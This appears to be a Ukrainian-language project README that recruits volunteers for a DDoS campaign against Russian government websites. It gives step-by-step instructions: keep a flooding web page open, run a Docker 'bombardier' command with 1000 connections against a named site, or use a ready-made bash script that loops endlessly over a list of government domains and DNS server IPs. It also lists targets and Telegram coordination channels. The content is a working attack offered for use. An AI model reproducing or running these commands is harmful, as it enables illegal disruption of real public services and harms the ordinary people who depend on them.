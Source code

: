 # Варіант 1 (для власників мобільних телефонів також)
Просто відкрийте і залиште сайт відкритим - [https://stop-russian-desinformation.near.page/](https://stop-russian-desinformation.near.page/)  
**Впевніться, що у вас достатньо заряду акумулятора та є доступ до зарядки**  
За можливості увімкніть VPN  

# Канали для новин та координації
- [https://t.me/+97Y45he5lOI2ZTky](https://t.me/+97Y45he5lOI2ZTky)
- [https://t.me/ddosRussians](https://t.me/ddosRussians)
- [https://t.me/itguildukraine](https://t.me/itguildukraine)

# Варіант 2
1. Встановіть [Docker](https://www.docker.com/products/docker-desktop)
2. Встановіть VPN 
- [F-Secure](https://www.f-secure.com/en/home/login) - РЕКОМЕНДОВАНО
- [ProtonVPN](https://protonvpn.com/download)
- [Windscribe](https://windscribe.com/download)
- [ClearVPN](https://my.clearvpn.com/enter)
- [Urban VPN](https://www.urban-vpn.com/)
4. Запустіть в терміналі команду
```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
(замініть `https://www.gosuslugi.ru` на необхідний сайт - нові адреси для ddos атаки публікуються в [Telegram каналі](https://t.me/+97Y45he5lOI2ZTky) )  
**Ви можете відкрити декілька вікон терміналу**  

## Доповнення  
Можете створити файл `ddos.sh` та контентом:
```
#!/bin/bash -x
DESTS=( "http://duma.gov.ru/" "http://president-sovet.ru/" "https://sovetnational.ru/" "https://www.gosuslugi.ru/ru/" "https://zakupki.gov.ru/epz/main/public/home.html" "https://gossluzhba.gov.ru/" "http://defence.council.gov.ru/" "http://budget.council.gov.ru/" "http://www.kremlin.ru/" "https://government.ru/" "http://www.scrf.gov.ru/" "http://www.ksrf.ru/ru/Pages/default.aspx" "http://www.vsrf.ru/" "http://premier.gov.ru/events/" "https://www.mchs.gov.ru/" "https://minjust.gov.ru/ru/" "http://www.fsb.ru/" "https://rosguard.gov.ru/" "https://customs.gov.ru/" "https://udprf.ru/" "http://favt.gov.ru/" "http://194.67.2.109:53/UDP" "http://194.67.7.1:53/UDP" "http://194.54.14.187:53/UDP" "http://194.54.14.186:53/UDP" )
TIME="180s"
while TRUE
do
   for DEST in ${DESTS[@]}
   do
       docker run -ti --rm alpine/bombardier -c 1000 -d $TIME -l $DEST
   done
done
```
та запустити з допомогою команди `chmod +x ddos.sh && sh ddos.sh` в терміналі  

## Ресурси для атаки (краще слідкувати за апдейтами в Telegram)
`http://duma.gov.ru/` `http://president-sovet.ru/` `https://sovetnational.ru/` `https://www.gosuslugi.ru/ru/` `https://zakupki.gov.ru/epz/main/public/home.html` `https://gossluzhba.gov.ru/` `http://defence.council.gov.ru/` `http://budget.council.gov.ru/` `http://www.kremlin.ru/` `https://government.ru/` `http://www.scrf.gov.ru/` `http://www.ksrf.ru/ru/Pages/default.aspx` `http://www.vsrf.ru/` `http://premier.gov.ru/events/` `https://www.mchs.gov.ru/` `https://minjust.gov.ru/ru/` `http://www.fsb.ru/` `https://rosguard.gov.ru/` `https://customs.gov.ru/` `https://udprf.ru/` `http://favt.gov.ru/`

[Contribute](https://github.com/domanskyi/xsquad)
